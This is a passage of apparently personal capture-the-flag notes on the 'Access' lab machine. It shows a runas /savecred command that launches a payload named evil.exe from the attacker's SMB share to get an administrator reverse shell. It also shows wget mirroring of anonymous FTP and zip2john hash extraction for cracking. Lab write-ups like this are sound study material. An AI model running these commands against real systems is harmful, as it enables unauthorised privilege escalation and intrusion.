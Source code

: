 - after we've placed the file in our smb share on our smb server, we can then run the payload using runas

```shell
runas /env /noprofile /savecred /user:ACCESS\Administrator "\\10.10.14.6\smb\evil.exe"
```

![](assets/Access_assets/Pasted%20image%2020231115195612.png)

- and we can see that in our nc listener, we also got a shell as administrator

![](assets/Access_assets/Pasted%20image%2020231115200239.png)

- and we can view the root file

![](assets/Access_assets/Pasted%20image%2020231115200312.png)


Walkthrough
- when dealing with FTP and he has anonymous login, he just downloads everything using
```
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
```
we have to add --no-passive if the PASV mode failed
- for a zip file we can do 
```
7z l -slt Access\ Control.zip
```
slt tells us information about how the file was encrypted
l lists the information of the zip
we will see AES-256 Deflate
- so ltes try to crack this zipt
```
zip2john Access.zip > hash
```
- for backup.mdb
```
file backup.mdb
```
we can do strins first on the file, before we can use mdbtools